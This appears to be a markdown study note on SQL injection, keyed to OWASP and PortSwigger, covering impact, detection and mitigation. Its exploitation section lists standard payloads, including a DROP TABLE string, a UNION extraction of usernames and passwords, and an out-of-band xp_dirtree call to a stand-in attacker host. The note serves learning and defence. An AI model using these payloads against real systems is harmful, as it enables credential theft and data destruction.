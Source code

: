 # SQL Injection  

---

## Metadata  
- **OWASP Category (2021):** A03 Injection  
- **PortSwigger Link:** [What is SQL Injection? Tutorial & Examples | Web Security Academy](https://portswigger.net/web-security/sql-injection)  

- **Sub-Topics:**  
  - UNION attacks = finding columns with useful datatype  
  - Blind SQL = Results are not returned in response  
  - Second-Order (Stored) SQL = App takes user input from an HTTP request, and stores for future use  

---

## 💡 Concept  
- **What is it?**  
> - Allows an attacker to interfere with the queries that an application makes to its database.  
> - Can include data that belongs to other users – or any other data an application can access.  
> - Attackers can execute SQL to compromise the back-end infrastructure and could enable a full takeover.  

**Note:**  Most SQL injections occur within the `WHERE` clause, but can occur anywhere within the query  

- **Impact:**  
> - **Confidentiality:** Extract sensitive database contents (PII, credentials).  
> - **Integrity:** Modify or delete database records.  
> - **Availability:** Drop tables or run heavy queries to crash the database.  

---

## 🛠 Exploitation Notes  
- **Where to test:**  
> - In the entry points of an application that interacts with the database  

- **Payloads / Tricks used:**  
> - Boolean logic:  
>   ```
>   ' OR 1=1--
>   ```  
> - Stacked queries (if supported):  
>   ```
>   '; DROP TABLE users--
>   ```  
> - UNION attack:  
>   ```
>   ' UNION SELECT username, password FROM users--
>   ```  
> - Time-based blind:  
>   ```
>   ' OR IF(1=1, SLEEP(5), 0)--
>   ```  
> - Out-of-band:  
>   ```
>   '; exec xp_dirtree '\\attacker.com\share'--
>   ```  

---

## 🔍 Detection  
- **How to identify in apps:**  
> - A single quote `'` → and view any errors.  
> - SQL-specific syntax that evaluates different values.  
> - Different responses from boolean conditions (OR 1=1, OR 1=2).  
> - Time delays when an SQL query is executed.  

- **Automated detection tools:** Burp Scanner, SQLMap  

---

## 🛡 Mitigation  
- **Developer-side fixes:**  
> - Parameterized queries (prepared statements) for when untrusted input appears as data within the query → string used must be a hard-coded constant  
> - Whitelisting permitted values  
> - Different logic to disallow the behavior  

---

## Extras  
- **Cheat sheet / references:**  
  - [SQL injection cheat sheet | Web Security Academy](https://portswigger.net/web-security/sql-injection/cheat-sheet)  

